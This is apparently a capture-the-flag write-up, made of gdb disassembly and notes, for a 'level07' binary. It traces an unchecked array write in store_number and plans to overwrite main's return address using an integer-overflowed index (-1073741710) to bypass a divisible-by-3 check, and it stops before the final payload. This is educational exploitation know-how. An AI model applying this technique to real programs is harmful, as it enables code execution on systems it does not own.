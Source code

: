 ```gdb
0x08048630  store_number
0x080486d7  read_number
0x08048723  main
```

it loads the env as argv
```
<main+22>:	mov    0x10(%ebp),%eax

(gdb) p **(char ***)($ebp+0x10)
$19 = 0xffffd8be "SHELL=/bin/bash"


(gdb) p **(char ***)($ebp+0xc)
$18 = 0xffffd8a2 "/home/users/level07/level07"

(gdb) x/10s 0xffffd8a2
0xffffd8a2:	 "/home/users/level07/level07"
0xffffd8be:	 "SHELL=/bin/bash"
0xffffd8ce:	 "TERM=xterm-256color"
0xffffd8e2:	 "SSH_CLIENT=10.12.10.15 49862 4242"
```

```
 0x08048878 <+341>:	lea    0x1b8(%esp),%eax
 0x08048882 <+351>:	call   0x80484a0 <fgets@plt>
   
 <main+413>:	mov    $0x8048d5b,%eax  "store"
 <main+427>:	repz cmpsb
 
 The test instruction is commonly used to check whether a value is zero or not
 0x080488df <+444>:	test   %eax,%eax
 0x080488e1 <+446>:	jne    0x80488f8 <main+469>         jump to compar if it is 0 <+478>:	mov    $0x8048d61,%eax "read"
 0x080488e3 <+448>:	lea    0x24(%esp),%eax
 0x080488ea <+455>:	call   0x8048630 <store_number>
 
 <main+520>:	call   0x80486d7 <read_number>
   
```
 instruction `rep stos %eax,%es:(%edi)` is performing a "repeat string operation"
 
 that stores the value of the eax , ecx times at the memory location pointed to by edi.
 
 commonly used to initialize memory locations to a specific value

```
at <main+110>:	lea    0x24(%esp),%ebx
we insialize the buffer[0x64/100] to 0

this buffer is passed to store()

<main+448>:	lea    0x24(%esp),%eax
<main+455>:	call   0x8048630 <store_number>   store_number(&buffer)



<main+513>:	lea    0x24(%esp),%eax
<main+520>:	call   0x80486d7 <read_number>    read_number(&buffer)
```

debbugging
check for more [Ressources/magic_numbers.md](Ressources/magic_numbers.md)

<pre><code>

break at <main+351>:	call   0x80484a0 <fgets@plt>

Input command: store

store_number(array[100])
{
  
  Initialize two local variables with zeros.
  <+6>:     movl   $0x0,-0x10(%ebp)
  <+13>:    movl   $0x0,-0xc(%ebp)
  
  <store_number+33>:	call   0x80485e7 <get_unum>
  <store_number+38>:	mov    %eax,-0x10(%ebp)
  
  get_unum()
  {
        <get_unum+26>:	mov    $0x8048ad0,%eax    "%u"
        <get_unum+31>:	lea    -0xc(%ebp),%edx
        <get_unum+41>:	call   0x8048500 <__isoc99_scanf@plt>      scanf("%u")
  }
  
  number at -0x10(%ebp)
  index  at -0xc(%ebp)
  
  
  Perform a division-by-3 check using multiplication by the magic number 0xaaaaaaab.
  If the remainder is non-zero, skip the following block.
  
  0xaaaaaaab,%edx  (a repeating pattern of 10101010101010101010101010101011 in binary / 2863311531)
  Convert each hex digit to 4 binary digits
  check for more  [Ressources/magic_numbers.md]
  
  <store_number+65>:	mov    $0xaaaaaaab,%edx 
  <store_number+72>:	mul    %edx   ==> eax = eax * edx
  <store_number+74>:	shr    %edx  right-shifting the value of edx by one     edx = edx >> 1

If the division-by-3 check passed, check if the most significant byte of the first local variable is equal to 0xb7. If not, skip the following block.

0x0804868a <+90>:    mov    -0x10(%ebp),%eax
0x0804868d <+93>:    shr    $0x18,%eax
0x08048690 <+96>:    cmp    $0xb7,%eax
0x08048695 <+101>:   jne    0x80486c2 <store_number+146>


If either of the checks failed, store the first local variable into an array pointed to by the first function argument, withan index specified by the second local variable. Set the return value to 0.

0x080486c2 <+146>:   mov    -0xc(%ebp),%eax        index
0x080486c5 <+149>:   shl    $0x2,%eax              index * 4
0x080486c8 <+152>:   add    0x8(%ebp),%eax         &array + index
0x080486cb <+155>:   mov    -0x10(%ebp),%edx       value
0x080486ce <+158>:   mov    %edx,(%eax)            *(array + index) = value
0x080486d0 <+160>:   mov    $0x0,%eax


}
</code></pre>

  
```
if (check1 == 0 || check2 == 0) 
{
    int* array_ptr = *(int**)(ebp + 0x8);
    int value = *(int *)(ebp - 0x10);
    int index = *(int *)(ebp - 0xc);
    *(array_ptr + (index * 4)) = value;  ==> array[index] = value
    
    return 0;
}
```

```

(gdb) x/d $ebp-0x10     value
0xffffd508:     123

(gdb) x/d $ebp-0xc      index
0xffffd50c:     7 
 
(gdb) x/x $ebp+8        array_ptr
0xffffd520:    ===> 0xffffd544


 mov    -0xc(%ebp),%eax    eax = 7
 shl    $0x2,%eax          eax = 7 * 4 = 28
 add    0x8(%ebp),%eax     eax = 0xffffd544 + 28 = 0xffffd560
 mov    -0x10(%ebp),%edx   edx = 123
 mov    %edx,(%eax)        x/d 0xffffd560 = p  *(int *)0xffffd560 = 123
```

so We will overwrite the main return address using the store function.


b *main+455  // store
b *main+520  // read

where the array_ptr is located when value retrieval
<read_number+40>:	add    0x8(%ebp),%eax
(gdb) x/x $ebp+8
0xffffd500:	0xffffd524 <==

0xffffd524 + 7*4 = 0xffffd540
p *(int *)0xffffd540 = 123

find main eip

info frame
eip at 0xffffd6ec

(gdb) p/d 0xffffd6ec - 0xffffd524 = 456 / 4 = 114

114 / 3 = 38

so this index cannot be inserted directly to the program

we will go for Integer overflow attack since the index is stored by scanf as %u

114 in binary
printf %032d 1110010
00000000000000000000000001110010
since the index is `shl by $0x2` will get rid of the 2 MSB
11000000000000000000000001110010 = -1073741710


